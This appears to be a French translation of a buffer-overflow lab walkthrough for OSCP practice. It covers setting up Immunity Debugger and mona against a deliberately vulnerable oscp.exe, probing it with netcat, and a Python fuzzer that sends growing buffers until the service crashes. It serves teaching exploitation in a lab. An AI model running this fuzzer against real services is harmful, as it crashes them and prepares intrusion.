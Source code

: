 ﻿Cliquez avec le bouton droit sur l'icône Immunity Debugger sur le bureau et choisissez "Exécuter en tant qu'administrateur".

Lorsque Immunité se charge, cliquez sur l'icône d'ouverture de fichier ou choisissez Fichier -> Ouvrir. Accédez au dossier des applications vulnérables sur le bureau de l'utilisateur administrateur, puis au dossier "oscp". Sélectionnez le binaire "oscp" (oscp.exe) et cliquez sur "Ouvrir".

Le binaire s'ouvrira dans un état "en pause", alors cliquez sur l'icône de lecture rouge ou choisissez Déboguer -> Exécuter. Dans une fenêtre de terminal, le binaire oscp.exe devrait être en cours d'exécution et nous indique qu'il écoute sur le port 1337.

Sur votre box Kali, connectez-vous au port 1337 sur MACHINE_IP en utilisant netcat :

nc MACHINE_IP 1337

Tapez "AIDE" et appuyez sur Entrée. Notez qu'il existe 10 commandes OVERFLOW différentes numérotées de 1 à 10. Tapez « OVERFLOW1 test » et appuyez sur Entrée. La réponse doit être "OVERFLOW1 COMPLETE". Terminez la connexion.

Configuration Mona

Le script mona a été préinstallé, mais pour faciliter son utilisation, vous devez configurer un dossier de travail à l'aide de la commande suivante, que vous pouvez exécuter dans la zone de saisie de commande en bas de la fenêtre Immunity Debugger :

```
!mona config -set workingfolder c:\mona\%p
```

## Fuzzing

Créez un fichier sur votre box Kali nommé fuzzer.py avec le contenu suivant :

```
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```
